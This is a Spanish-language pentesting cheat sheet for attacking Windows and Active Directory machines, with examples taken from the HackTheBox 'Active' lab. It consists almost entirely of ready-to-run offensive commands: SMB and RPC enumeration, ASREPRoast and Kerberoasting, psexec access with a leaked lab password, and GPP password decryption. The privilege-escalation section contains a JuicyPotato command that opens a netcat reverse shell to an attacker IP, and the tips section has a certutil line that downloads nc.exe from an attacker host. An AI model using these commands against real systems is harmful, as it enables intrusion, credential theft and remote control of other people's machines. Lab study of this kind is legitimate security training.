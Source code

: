 ## Windows

El objetivo de esta página es documentar los comandos mas utilizados en enumeración y explotaciónde máquinas Windows.

### crackmapexek

Para ver info de un equipo sin credenciales:

<pre>
crackmapexec smb 10.10.10.100 
</pre>

Para ver recursos compartidos sin credenciales:

<pre>
  crackmapexec smb 10.10.10.100  --shares
</pre>

Para conectar con credenciales:

<pre>
  crackmapexec smb 10.10.10.100  -u 'usuario' -p 'password' --shares
</pre>

### smbmap

Para conectar a un host sin credenciales, nos lista unidades sin credenciales:

<pre>
smbmap -H 10.10.10.1000
</pre>

Para conectar ver lo que tiene un recurso, paramero -r:

<pre>
smbmap -H 10.10.10.1000 -r Replication
</pre>

Para descargarnos algo, parámetro --download

<pre>
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
</pre>

Con credenciales:

<pre>
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Groups
</pre>

### SMBGET 

Para descargar un directorio entero:

<pre>
smbget -R smb://active.htb/Replication -U ""
</pre>

### smbclient

Visualizar sin credenciales:

<pre>
smbclient -L //10.10.10.100/Replication -N

</pre>

Tambien se puede montar unidad con **mount**

<pre>
sudo mount -t cifs //active.htb/Replication /mnt/HTB/Active -o username="{user}",password="{pass}",domain=active.htb,rw
</pre>
### rpcclient

Una vez que tenemos credencales nos podemos conectar co  **rpcclient**:

<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100
</pre>

Tambien es posible a veces conectarse con sesion null:
<pre>
rpcclient -U "" 10.10.10.100 -N
</pre>

Con credenciales, listamos usuarios del dominio:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'enumdomusers'
</pre>


Con credenciales, listamos grupos del dominio:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'enumdomgroups'
</pre>


Con credenciales, usuarios de un grupo. Pasamos el id de grupo:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'querygroupmem 0x200'
</pre>



Con credenciales, Info de un  usuario por su id:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'queryguser 0x1f4'
</pre>

Con credenciales, ver las desripciones de todos los usuarios:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'querygdispinfo'
</pre>

### rpcenum

Herramienta de s4vitar para enumerar usuarios y grupos de un dominio. Revisar m´áquina Active de HTB para ver como configurarla.

### ASREPRoast Attack

Cuando solo se dispone de usuarios, sin credenciales, **y estando en un entorno de active directory** se puede intentar un ASREPRoast Attack con GetNPUsers:
<pre>
GetNPUsers.py active.htb/ -no-pass -usersfile users.txt 
</pre>

Tambien puede hacerse un ataque 
### Kerbrute

Si está el puerto de kerberos aberto, el 88, se puede usar kerbrute para enumerar teniendo un diccionario.
<pre>
kerbrute userenum -dc 10.10.10.100 -d active.htb /usr/share/wordlists/SecList/Usernames/Names/names.txt
</pre>

### GetUsersSPNs, Kerberoasting ATTACK

Si no es Kerberoasteable podemos usar esta opción para enumerar.

<pre>
GetUsersSPNs.py active.htb/USUARIO:CONTRASEÑA
</pre>

Si hay resultado se puede obtener un TGS, (Ticket Garanting Service). El hash se puede intentar romper con john


<pre>
GetUsersSPNs.py active.htb/USUARIO:CONTRASEÑA -request
</pre>

Tambien puede hacerse kerberos con credenciales con *+crackmapexec**:

<pre>
crackmapexec ldap active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 --kerberoasting TGS-REP
</pre>
### PSEXEC

Si con **crackmapexec smb** nos aparece **Pwned** podemos obtener acceso con psexec:

<pre>
psexec.py active.htb/Administrator:CONTRASEÑA@10.10.10.100 cmd.exe
</pre>

## ESCALADA DE PRIVILEGIOS

### SeImpersonatePrivilege

si el usuario pertenece a este grupo hay varias vias de convertirse en **NT Authority System**.

#### Juicy Potato

Se puede escalar privilegios, previa subida de JuicyPotato.exe y nc.exe:

<pre>
JP.exe -t * -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\\windows\temp\privescnc.exe -e cmd 10.10.14.51 4446"
</pre>

#### Chimichurry
Otra vía es **Chimichurri**, aunque a veces no va.

<pre>
Chimichurri.exe 10.10.14.51 4446
</pre>

## TRUCOS

### subir archivos desde CMD:
<pre>
certutil.exe -f -urlcache -split http://10.10.14.51/nc.exe nc.exe
</pre>

### Enumerar SYSVOL

Si se puede enumerar SYSVOL hay que buscar el ficehro Groups.txt, (Policies/xxxx/MACHINE/Preferences/Group).
Como microsoft publicó la clave de desencriptación se puede utilizar **gpp-decript**.

<pre>
gpp-decrypt 'CONTRASEÑAEMCRIPTADA'
</pre>

### Sincronizar reloj

Para ataques ASREPRoast o kerbrute hay que sincronizar el reloj con el de la maquina active directory:

<pre>
ntpdate 10.10.10.100
</pre>

Con **date -s** podemos volver a dejar la fecha igual. Investigar como.

### ver certificado SSL

<pre>
echo | openssl s_client -connect 10.129.173.50:443  
</pre>

## Enlaces de interes

[Windows Cheet-Sheet by Intrusionz3r0](https://intrusionz3r0.github.io/posts/Windows/)
